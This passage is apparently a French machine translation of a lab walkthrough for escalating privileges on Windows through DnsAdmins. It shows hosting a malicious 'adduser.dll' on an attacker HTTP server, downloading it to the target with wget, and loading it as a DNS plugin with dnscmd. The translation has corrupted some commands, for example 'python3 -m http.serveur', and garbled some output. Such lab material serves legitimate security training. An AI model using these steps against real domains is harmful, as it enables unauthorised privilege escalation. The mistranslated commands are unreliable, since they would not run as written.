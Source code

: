 #### Démarrage du serveur HTTP local

Ensuite, démarrez un serveur HTTP Python.

Démarrage du serveur HTTP local

```

dsgsec@htb[/htb]$ python3 -m http.serveur 7777

Serveur HTTP sur le port 0.0.0.0 7777 (http://0.0.0.0:7777/) ...

10.129.43.9 - - [19/mai/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -

```

#### Téléchargement du fichier vers la cible

Téléchargez le fichier sur la cible.

Téléchargement du fichier vers la cible

```

PS C:\htb> wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"

```

Voyons d'abord ce qui se passe si nous utilisons l'utilitaire `dnscmd` pour charger une DLL personnalisée avec un utilisateur non privilégié.

#### Chargement de la DLL en tant qu'utilisateur non privilégié

Chargement de la DLL en tant qu'utilisateur non privilégié

```

C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Le serveur DNS n'a pas pu réinitialiser la propriété du registre.

Statut = 5 (0x00000005)

Échec de la commande : ERROR_ACCESS_DENIED

```

Comme prévu, la tentative d'exécution de cette commande en tant qu'utilisateur normal échoue. Seuls les membres du groupe "DnsAdmins" sont autorisés à le faire.

#### Chargement de la DLL en tant que membre de DnsAdmins

Chargement de la DLL en tant que membre de DnsAdmins

```

C:\htb> Get-ADGroupMember -Identity DnsAdmins

nom_distingué : CN=netadm,CN=Utilisateurs,DC=INLANEFREIGHT,DC=LOCAL

nom              : netadm

objectClass      : utilisateur

GUIDobjet        : 1a1ac159-f364-4805-a4bb-7153051a8c14

SamAccountName    : netadm

SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```